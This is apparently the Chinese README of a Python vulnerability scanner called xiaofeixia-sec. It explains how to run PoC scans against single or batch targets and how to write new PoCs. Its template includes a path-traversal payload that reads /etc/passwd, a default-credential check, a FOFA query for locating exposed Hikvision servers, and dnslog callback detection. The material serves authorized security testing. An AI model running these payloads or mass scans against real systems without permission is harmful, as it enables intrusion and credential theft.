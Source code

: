<h1>使用注意点</h1>

<h2>强调</h2>

本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

<h2>使用注意点</h2>

<ol>

<li>只要不删除、增加、修改poc的文件名，都不需要“-up”。</li>

<li>增加、删除poc,或者修改poc的文件名，都需要执行“-up”</li>

<li>可以在poc目录下移动poc至你认为合适的目录下，只要在移动后执行“-up”即可</li>

<li>由于个人精力有限，现有poc未一一验证，存在误报或poc错误的情况；</li>
</ol>


<h2>用法</h2>

<h3>一、准备工作</h3>

安装python模块</br>

`pip install -r requirements.txt`</br>

如网络异常可指定源安装</br>

`pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple`</br>

<h3>二、用法示例</h3>

1、安装完模块后一定要先进行poc初始化，否则脚本无法读取任何poc

`python xiaofeixia-sec.py -up`

2、对一个网站执行所有poc

`python xiaofeixia-sec.py -u http://www.tesssst.com -a`</br>

3、匹配某些poc进行扫描

`python xiaofeixia-sec.py -u http://www.tesssst.com -s `弱口令</br>

4、批量poc扫描(不支持同时匹配,目前只能匹配一个关键字，如：-s tomcat nginx是不支持的)

`python xiaofeixia-sec.py -f targets.txt -s tomcat`</br>

5、扫描到的漏洞会记录到log目录下的文件，按照日期命名;</br>

6、“-pl”列出当前所有的poc信息;

`python xiaofeixia-sec.py -pl`</br>

7、“debug”只能输出部分语法错误，这部分以后改进;</br>

`python xiaofeixia-sec.py -debug`</br>

8、需要配置邮箱和授权码，最好是qq邮箱，其他的没配置，发现漏洞后可以直接邮件通知，不需要一直盯着，配置文件在config目录下;</br>

9、邮件发送过快可能会被qq限制，导致收不到邮件;</br>

<h2>poc编写规范</h2>

<h3>一、msg()函数</h3>

<p>msg()函数下为记录poc的基本信息。在检测到漏洞后会返回部分信息。</p>

```python
def msg():
  ret = {

      'links'     :  '',//编写poc的参考链接

      'huixian'   :  '',//为空即可，如有需要可在`run()`函数下添加返回信息

      'method'    :   'get',//请求得格式：get、post

      'bugname'   :   'HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏',//漏洞名

      'level'     :   'critical',//漏洞等级：critical、high、medium、low

      'FOFA'      :   '"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"',//fofa查询语法

      'author'    :   'ppxfx',//脚本作者

      'ifbug'     :   False,//默认无漏洞，匹配到漏洞后将True赋值给ifbug

      'create_time':  '2024/2/26',//poc创建时间
  }
  return ret
```

<h3>二、run()函数</h3>

<p>run()函数为检测漏洞的入口，在该函数下编写漏洞检测的相关逻辑</p>

```python
def run(url,ua):
  ret = msg()
  headers = {
      'User-Agent': ua,
      }
  target = ''//路径地址
  url1 = url + target//将域名和路径组合在一起
  ret['url'] = url1
  try:
    res=requests.get(url=url1,headers=headers,timeout=5,verify=False)
    if res.status_code == 200 and re.search(r'root:.*?:[0-9]*:[0-9]*:',res.text,re.S):
      ret['huixian'] = res.text
      res.close()
      ret['ifbug'] = True
      return ret
    else:
      return ret
  except:
    return ret
```

<p>run()函数传入两个参数，一个是待检测地址的域名(后无路径),一个是随机的user-agent，这两个无需修改。</p>

<p>ret是脚本信息，在检测完脚本后返回是否存在漏洞等基本信息。</p>

<p>headers里写入user-agent，ua是浏览器指纹，如果需要其它的也可写入，全部是字符串格式，需要用引号包裹起来，最后都需要逗号结束，如：</p>

```python
headers = {
      'User-Agent': ua,
      'Content-Type': 'application/x-www-form-urlencoded',
      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      }
```

<p>target为路径信息，如</p>

```python
target='/../../../../etc/passwd'
```

<h3>三、弱口令的编写注意点</h3>

<p>在弱口令poc中的请求包一般需要禁止重定向，如:</p>

```python
res=requests.post(url=url1,headers=headers,data=data,timeout=5,verify=False,allow_redirects=False)
```
<p>并且在匹配漏洞特征的时候最好检测`localtion`是否符合预期</p>

```python
if res.status_code == 302 and '/out/out.ViewFolder.php' in res.headers['location']
```
<p>最后如果检测到漏洞可将漏洞关键点赋值给`ret['huixian']`，其它漏洞同理，如：</p>

```python
ret['huixian'] = f'账号/密码：Admin/zabbix'
ret['ifbug'] = True //确认为漏洞的标志，重要！
ret['url'] = url1 //有漏洞的返回值里必须有url,无漏洞的可以没有,最好还是有-_-
```
<p>注意：几个`return ret`缺一不可！</p>

<h3>四、dnslog的使用</h3>
<p>如果需要使用dnslog，脚本里需要引入`import script.DnsLog as dnslog`，这里用的是dnslog.cn</p>
<p>首先请求一个dnslog域名</p>

```python
domain,cookie = dnslog.get_domain()
```
<p>domain就是dnslog生成的域名，可以直接利用，这里省去利用过程。在利用完成后再去请求dnslog是否接收到返回用如下语句获取是否检测到回显，返回True或False,True表示检测到回显，False表示未检测到回显</p>

```python
dnslog.get_result(domain,cookie)#传入domain和cookie两个参数，参数从get_domain()获取。
```

```python
//用法示例：
if dnslog.get_result(domain,cookie) == True:
    print('存在漏洞')#具体用法根据poc进行修改
```

<h3>五、获取域名的IP地址</h3>
<p>如果需要获取网站IP，可以在脚本内任意poc导入</p>

```python
import script.getIP as getIP
def run():
    ip = getIP.main(url)
    if ip == None:#如果返回None,则代表未获取到IP地址，可以直接返回ret信息了。
        return ret
    #继续检测
    print(ip)
```
<h3>六、POC命名建议</h3>
<p>由于脚本利用过程需要用到poc名，因此poc命名需要符合一定规则</p>
<ol>
  <li>不能存在中划线'-',如有需要用下划线'_'代替</li>
  <li>有漏洞编号的最好带上</li>
  <li>支持中文,能唯一标志漏洞的，或者能被批量检索到的最好都写在poc文件名上，漏洞检索功能就是检索`漏洞名`</li>
</ol>
<h3>七、其他注意点</h3>
<p>小飞侠脚本由于是python，语法简单，自由发挥的空间比较多，可根据具体漏洞或自身编程习惯进行编写。</br>相同类型的漏洞放在一个路径下的好处是可以借鉴参考，有助于快速poc的编写</p>
<h2>其他</h2>
<p><strong>如有问题或其他功能扩充想法请与小飞侠联系，支持请点个star</strong></p>
<p><strong>联系方式：3484762639#qq.com（所有数字减1并将#替换为@）</strong></p>